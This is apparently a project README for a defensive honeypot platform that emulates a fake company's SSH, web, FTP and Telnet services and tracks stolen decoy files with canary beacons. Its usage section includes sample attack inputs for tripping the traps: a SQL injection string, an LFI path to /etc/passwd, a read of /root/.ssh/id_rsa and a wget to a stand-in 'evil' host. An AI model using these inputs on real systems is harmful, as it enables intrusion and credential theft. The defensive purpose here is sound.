

# 🛡️ Aegis-Nexus — Honeypot Ecosystem

> A modular, production-grade, fully dockerized **deception platform**: a cluster of
> medium-interaction honeypots that lure attackers into a fake corporate environment,
> capture their every move, and stream normalized telemetry to a central SOC console —
> all while remaining safe-by-design and impossible to weaponize as a pivot.


---

## 📖 Project Overview

**Aegis-Nexus** simulates the digital footprint of a small logistics company,
*"Meridian Logistics S.p.A."*, and deliberately exposes services that attackers love
to find: a weakly-secured SSH server, an "internal" web portal with classic
vulnerabilities, and dusty legacy FTP/Telnet daemons. None of it is real. Every
service is a **trap** instrumented to record who is knocking, what they try, and what
they would steal.

The goal of a honeypot is not to *block* attacks but to **observe** them. Because no
legitimate user has any reason to touch these systems, **every single packet they
receive is, by definition, suspicious** — which makes the signal-to-noise ratio of the
collected data extraordinarily high compared to production logs.

Three design principles drive the whole project:

1. **Safe by design.** A honeypot must look exploitable without *being* exploitable.
   The SSH shell is fully emulated (no command ever runs on the host), the web "SQL
   injection" is pattern-matched and answered with fabricated data, and the "local file
   inclusion" can only ever reach a sealed honeyfiles sandbox. A trap that becomes a
   real foothold is worse than no trap at all.
2. **Hard network segmentation.** Traps live in a published DMZ network; the analytics
   collector lives on a separate `internal: true` network with **no route to the
   internet**. Even a hypothetically-owned trap cannot use the collector to phone home.
3. **Exfiltration tracking via canaries.** Decoy documents embed unique callback tokens.
   When a stolen file is opened — anywhere in the world — it beacons back and reveals
   the thief's real egress IP.

---

## ✨ Features

- **Medium-interaction SSH honeypot** (`paramiko`): accepts any credentials, harvests
  username/password pairs, and presents a convincing **emulated shell** over a fake
  corporate filesystem. Commands are logged, never executed. `wget`/`curl` attempts are
  flagged as malware-staging IOCs, and reading a planted secret raises a high-severity
  alert.
- **Decoy web application** (`Flask` + `gunicorn`): a period-accurate corporate intranet
  with a login portal and an exposed *"Internal DB"* console. Ships with intentional
  **SQL Injection** and **Local File Inclusion** *signatures* that detect and log
  exploitation attempts, returning believable fake data instead of real access.
- **Legacy protocol listener** (`socketserver`): emulated **FTP** and **Telnet**
  daemons that mimic ageing infrastructure, banner-grab-friendly, harvesting every
  credential typed at them.
- **Honeyfiles with canary tokens**: auto-generated `.env`, `.conf`, `.pdf`, `.docx`
  and `.txt` decoys, each carrying a unique tracking beacon. The Word document uses an
  **externally-linked image relationship** so that simply *opening* it triggers a
  callback — turning every theft into an alert.
- **Centralized logging & analytics engine** (`Flask`): aggregates normalized JSON
  events from all traps, computes live statistics, and renders a self-contained **SOC
  dashboard** (attacker IPs, severities, event types, credential captures, and a
  critical-alert feed).
- **DMZ network isolation** via two Docker networks (published bridge + isolated
  management VLAN).
- **Hardened containers**: every service runs as a dedicated **non-root** system user.
- **One-command deployment** through `docker-compose` and a convenience `Makefile`.
- **Built-in attack simulator** (`scripts/smoke_test.py`) to validate the full pipeline
  and produce demo data on demand.

---

## 🗺️ Architecture Diagram



**Data flow in one line:** `Attack → Trap detects & normalizes → JSON event over the
internal mgmt network → Collector persists + aggregates → SOC dashboard / critical
alert`. Stolen documents add a second channel: `Open file → canary beacon → collector →
critical exfiltration alert with real IP`.

---

## 📦 Project Structure

```
aegis-nexus/
├── docker-compose.yml          # Orchestration + DMZ/mgmt network design
├── Makefile                    # up / down / honeyfiles / smoke / logs / clean
├── .env.example                # CANARY_PUBLIC_URL template (copy to .env)
├── shared/
│   └── aegis_common.py         # Normalized event schema + fail-open EventEmitter
├── services/
│   ├── ssh-honeypot/           # paramiko medium-interaction SSH + emulated shell
│   ├── web-decoy/              # Flask portal: SQLi/LFI traps, templates, static
│   ├── legacy-listener/        # socketserver FTP + Telnet credential harvester
│   └── log-collector/          # Flask analytics engine + SOC dashboard (web/)
├── honeyfiles/
│   ├── generators/             # Canary-token honeyfile generator
│   └── *.env *.conf *.pdf *.docx *.txt   # Generated decoys
└── scripts/
    └── smoke_test.py           # Benign end-to-end attack simulation
```

---

## 🚀 Installation Guide

### Prerequisites

- **Docker Engine 20.10+** and the **Docker Compose v2** plugin
  (`docker compose version` should work).
- Free host ports: `2222` (SSH), `8080` (web), `21` (FTP), `23` (Telnet),
  `8600` (SOC dashboard). On Linux, binding `21`/`23` may require running compose with
  privileges; remap them in `docker-compose.yml` if needed.
- *(Optional, for local testing without Docker)* Python 3.12 and `pip install paramiko
  requests`.

### Steps

```bash
# 1. Get the code
git clone <your-repo-url> aegis-nexus
cd aegis-nexus

# 2. Configure the canary callback address.
#    For REAL exfiltration tracking, set this to a public IP/domain the attacker can reach.
cp .env.example .env
#    then edit .env  ->  CANARY_PUBLIC_URL=http://<your-public-host>:8600

# 3. Generate honeyfiles + build + launch everything
make up
#    (equivalent to: make honeyfiles && docker compose up -d --build)

# 4. Confirm the cluster is healthy
make ps
```

That's it. The SOC dashboard is now live at **http://localhost:8600**.

> ⚠️ **Deployment warning.** Honeypots attract real attackers. Deploy Aegis-Nexus only
> on infrastructure you own and are authorized to monitor, ideally on an isolated VLAN
> or a disposable cloud VM. Keep the management dashboard (`:8600`) firewalled to
> operators only.

---

## 🎮 Usage Instructions

### Operator commands (Makefile)

| Command | What it does |
|---|---|
| `make up` | Generate honeyfiles, build images, start the whole stack in the background |
| `make ps` | Show the status of every service |
| `make logs` | Tail live logs from all containers (`Ctrl-C` to stop) |
| `make smoke` | Run the benign attack simulator against the running traps (great for demos) |
| `make honeyfiles` | Regenerate decoy files with fresh canary tokens |
| `make down` | Stop and remove containers (captured logs survive) |
| `make clean` | Stop **and wipe volumes** — destroys all captured data |

### Watching it work

1. Open the **SOC dashboard** at `http://localhost:8600`. It polls every few seconds.
2. In another terminal, generate activity:
   ```bash
   make smoke          # simulates SSH brute-force, SQLi, LFI, FTP/Telnet logins
   ```
3. Try the traps by hand to see them react:
   ```bash
   # SSH — any credentials are accepted, then explore the fake shell
   ssh -p 2222 root@localhost           # try: ls, cat /root/.ssh/id_rsa, wget http://evil/x

   # Web decoy — visit the portal, then trip the SQLi trap
   #   browse http://localhost:8080/  and  http://localhost:8080/internal-db
   curl "http://localhost:8080/login" --data "username=admin' OR '1'='1&password=x"
   curl "http://localhost:8080/viewer?doc=../../../../etc/passwd"   # LFI signature

   # Legacy — credentials are harvested and always rejected
   ftp localhost
   telnet localhost 23
   ```
4. Watch the credentials, payloads, and **critical canary alerts** appear live on the
   dashboard. Raw events are persisted inside the `aegis_logs` volume at
   `/var/log/aegis/events.jsonl`.

### Triggering a canary (exfiltration proof)

Set a reachable `CANARY_PUBLIC_URL`, run `make honeyfiles`, then open
`honeyfiles/infrastructure.docx` in Microsoft Word (or fetch a `/canary/<token>` URL).
The collector records a **critical `canary_trigger`** event with the opener's real IP —
exactly what would happen after an attacker exfiltrates and opens the document.

---

## 🧰 Tech Stack & Official Documentation

| Component | Technology | Official docs |
|---|---|---|
| SSH honeypot | `paramiko` | https://docs.paramiko.org/ |
| Web decoy & collector | `Flask`, `gunicorn` | https://flask.palletsprojects.com/ · https://docs.gunicorn.org/ |
| Legacy listener | `socketserver` (stdlib) | https://docs.python.org/3/library/socketserver.html |
| PDF honeyfile | `reportlab` | https://docs.reportlab.com/ |
| Orchestration | Docker Compose | https://docs.docker.com/compose/ |
| Dashboard charts | Vanilla JS (no deps) | — |

---

## 🔒 Ethics & Legal

Aegis-Nexus is a **defensive** research and educational tool. Honeypots are passive
traps deployed on your *own* infrastructure to study unauthorized activity. Do **not**
use this software to entrap, attack, or counter-hack third parties, and be mindful of
the data-collection and privacy laws of your jurisdiction. The simulated vulnerabilities
are inert by design and must never be repurposed as offensive payloads.

---

## 📄 License

Provided for educational and portfolio purposes. Use responsibly and only where you are
authorized to do so.

---

*Built as a portfolio case study in security engineering, deception technology, and
containerized system design. For a deep technical walkthrough (in Italian), see
[`LEGGIMI.md`](./LEGGIMI.md).*
# AEGIS-NEXUS
